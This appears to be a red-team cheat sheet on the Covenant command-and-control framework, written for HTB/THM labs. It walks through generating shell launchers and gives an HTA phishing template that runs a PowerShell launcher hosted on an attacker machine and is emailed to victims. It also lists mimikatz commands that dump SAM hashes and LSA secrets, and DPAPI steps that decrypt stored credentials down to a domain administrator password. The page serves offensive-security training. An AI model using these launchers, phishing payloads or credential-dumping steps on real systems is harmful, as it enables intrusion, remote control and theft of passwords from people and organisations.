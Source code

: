 # Covenant

## Installation

### Install Dotnet

```
cd /tmp  
wget https://packages.microsoft.com/config/ubuntu/21.04/packages-microsoft-prod.deb -O packages-microsoft-prod.deb 
sudo dpkg -i packages-microsoft-prod.deb 
sudo apt update -y  
sudo apt-get install -y apt-transport-https dnsutils 
sudo apt-get update  
sudo apt-get install -y dotnet-sdk-3.1 
```

### Install and launch Covenant

```
sudo git clone --recurse-submodules https://github.com/ZeroPointSecurity/Covenant.git /opt/Covenant 
cd /opt/Covenant/Covenant
sudo dotnet run
```
- Navigate to https://127.0.0.1:7443 set up your user and you should be good to go

## Start a listener

- This one of the first thing to do it go to the listener tab and click on create  
![image](https://user-images.githubusercontent.com/96747355/178054727-6633f276-24ea-4b9d-ac93-316f3a812d3c.png)  
- Fill the field as you wish. Here is mine (Note: When playing on HTB or THM the ip will be your tun ip)  
![image](https://user-images.githubusercontent.com/96747355/178057695-41943d70-cefc-41ac-9396-bad4cd9bce56.png)  


## Create a Launcher to get a shell

- We can go to Launcher and choose one we need. For example if we have an initial foothold on a win machine we could use a powershell launcher  
![image](https://user-images.githubusercontent.com/96747355/178056997-81d23254-184d-4e41-a220-c758ea55d6a4.png)  
- Say we wanted a powershell, we need to choose a listener so we can select the http one we just created then we just have to click generate (or Download depending on how you will use it) and use the given code. (Note: make sure to use a date later in time for the killDate)  
![image](https://user-images.githubusercontent.com/96747355/178057272-f4d74fdf-7ac5-4aa3-9ad0-996578935f82.png)  
- Once the powershell code used you see a grunt has popped

### Launchers type

- `Binary` Generates a custom binary to launch grunt, does not rely on a system binary.
- `Shellcode` Converts binary to shellcode using [donut](https://github.com/TheWover/donut)
- `PowerShell` Generates PowerShell code to launch a grunt using powershell.exe.
- `MSBuild` Generates an MSBuild XML file to launch a grunt using [msbuild.exe](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/)
- `InstallUtil` Generates an InstallUtil XML file to launch a grunt using [installutil.exe](https://lolbas-project.github.io/lolbas/Binaries/Installutil/)
- `Mshta` Generates an HTA file to launch a grunt using [mshta.exe](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)
- `Regsrv32` Generates an SCT file to launch a grunt using [regsrv32.exe](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/)
- `Wmic` Generates an XSL file to launch a grunt using [wmic.exe](https://lolbas-project.github.io/lolbas/Binaries/Wmic/)
- `Cscript` Generate a JScript file to launch a grunt using [cscript.exe](https://lolbas-project.github.io/lolbas/Binaries/Cscript/)
- `Wscript` Generate a JScript file to launch a grunt using [wscript.exe](https://lolbas-project.github.io/lolbas/Binaries/Wscript/)

## Local Enumeration

- Suppose we have a grunt (a shell on the target) so we want to enumerate the target
- Click on the grunt > Interact
- Use Seatbelt `Seatbelt -group=all`
  - We will get useful info: local users, dns info (such as email domain and all), interesting files, etc.
- Use the cmd `GetDomainUser` to enumerate domain users
- Use the cmd `GetNetLoggedOnUser`to have a list of logged on users
- Use the cmd `GetNetLocalGroup` to have a list of local group
- etc.

## hta Email Phishing

- Create and hta file in your attacking machine:

```
<script language="VBScript">
  Function DoStuff()
    Dim wsh
    Set wsh = CreateObject("Wscript.Shell")
    wsh.run "<powershell command here>"
    Set wsh = Nothing
  End Function

  DoStuff
  self.close
</script>
```

- Create an HTTP listener in Covenant
  - Listener > create 
  - The table in listener should look like this  
    | Name        |    ListenerType | Status | StartTime	    |        ConnectAddresses   |   ConnectPort|
    |-------------|-----------------|--------|----------------|---------------------------|--------------|
    |HTTP Listener |	HTTP 	        |Active 	|3/7/2022 8:28:13 PM |	IP-OF-ATTACK-MACHINE 	    | 80

  - Go to Launchers > Powershell
  - Fill up the info, be careful taht the killdate is later in the future (not in the past)
  - Click on generate
  - Copy the encoded Launcher and put it in the script above instead of `<powershell command here>` 
  - Save the script
  - Go back to Listerners click on the listener that was just set up 
  - Go to Hosted Files, in Path enter `/name-of-your-script.hta`
  - Click on Browse and select your script
  - And click on create
  - If we go to `http://localhost/name-of-your-script.hta` we should be able to download it
- We can now send an email with a link to our reverse shell `http://IP-OF-ATTACK-MACHINE/name-of-your-script.hta`
- When the user will click the link an run the script we will get our reverse shell
- If we go to Covenant again and check in Grunt we should have a new one
- If you are not able to execute command (they stay Uninitialized) try either of those:  
  - Verify the kill date of the launcher
  - the UI may not allow changing the date.  This can be fixed by deleting the `/opt/Covenant/Covenant/data/covenant.db` file and restarting the service. You will lose all data and need to create a new user to log in with.

## Dump hashes with mimikatz

- In a high grunt
- We can use this to see if any plaintext info might come out `Mimikatz token::elevate lsadump::secrets`
- Will dump the sam file (where password hashes are stored in windows)`Mimikatz token::elevate lsadump::sam`
- Covenant will save the Crendentials in the Data section as well

## Cracking Credential Vault with mimikatz

- We need a medium integrity grunt
- `mimikatz vault::cred` will show all services with persisted passwords
- `ls C:\users\user\appdata\local\microsoft\credentials` will list the passwords files the smallest of the files is gemerally the one we need.
- We then go to the tab tak in our grunt. We select Mimikatz from the list and type this task: `"dpapi::cred /in:C:\users\user\appdata\local\microsoft\credentials\FILE-PREVIOUSLY-CHOSEN"`
- From the output of the task we need to keep aside the value of the guidMasterKey 
- `ls C:\users\user\appdata\roaming\microsoft\protect` this should list a directory with an sid value in the end
- If you do an ls on this it should list the same path with the guidMasterKey value we previously found. We need to copy the full path, and then we go to task again and using mimikatz we need to type `"dpapi::masterkey /in:C:\users\user\appdata\roaming\microsoft\protect\sid\guidMasterKey /rpc"`
- This way we will het in the end of the output the key for the domain controller which should look like this: `key : 60f202bff3c6e2eaedfc4c28ac1adbdd102ec7dba401157f6f8c2056205507ed4e6d93120ebe48959751c0f2c939e515382d7ffec7bd2b129c8eb89466b31f0f`
- We need to keep this key aside
- We go back to task and we type `"dpapi::cred /in:C:\users\user\appdata\local\microsoft\credentials\sid /masterkey:<PASTE-THE-KEY-HERE>"
- This should dump the domain password, you should see it at the end of the output:
  ```
  UserName       : domain\Administrator
  CredentialBlob : Password123!
  ```

## Common issues with Covenant

- Issue - The dashboard is acting weird and not allowing the creation of listeners, payloads, etc.
   - Solution - Delete /opt/Covenant/Covenant/data/Covenant.db and restart Covenant.
- Issue - I can get a Grunt to connect back to Covenant, but when attempting to run commands it just sits on uninitialized and doesn't execute.
  - Solution - This is likely an issue with the Grunt kill date.  It's your responsibility to pay attention to the kill date in the launcher generator to ensure it is a date and time in the future.  In rare circumstances the UI may not allow changing the date.  This can be fixed by deleting the `/opt/Covenant/Covenant/data/Covenant.db` file and restarting the service.  Note you will lose all data and need to create a new user to log in with.  This is a known issue with Covenant.

## Resources

{% embed url="https://github.com/cobbr/Covenant" %} Get Covenant here {% endembed %}
{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} Movement Pivoting and Persistence - TCM Security Academy {% endembed %}
